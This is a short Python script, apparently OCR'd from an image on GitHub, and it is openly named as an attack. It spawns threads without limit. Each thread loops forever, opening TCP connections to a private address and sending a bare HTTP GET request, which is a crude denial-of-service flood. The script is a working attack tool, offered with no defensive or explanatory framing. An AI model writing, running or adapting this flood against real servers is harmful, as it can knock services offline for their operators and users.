 import threading
import socket, sys, os

def attack():
    while True:
        # pid = os.fork()
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("10.77.70.71", 6000))
            #print(">> GET / HTTP/1.1")
            s.send(b"GET / \r\n")
            s.send(b"Host: http://10.77.70.71:5000 \r\n\r\n");
            s.close()
        except (TimeoutError,ConnectionRefusedError,OSError):
            print('errored')
            pass

x=0

while True:
    x+=1
    print('THREAD:')
    print(x)
    e1 = threading.Event()
    t1 = threading.Thread(target=attack)
    t1.start()
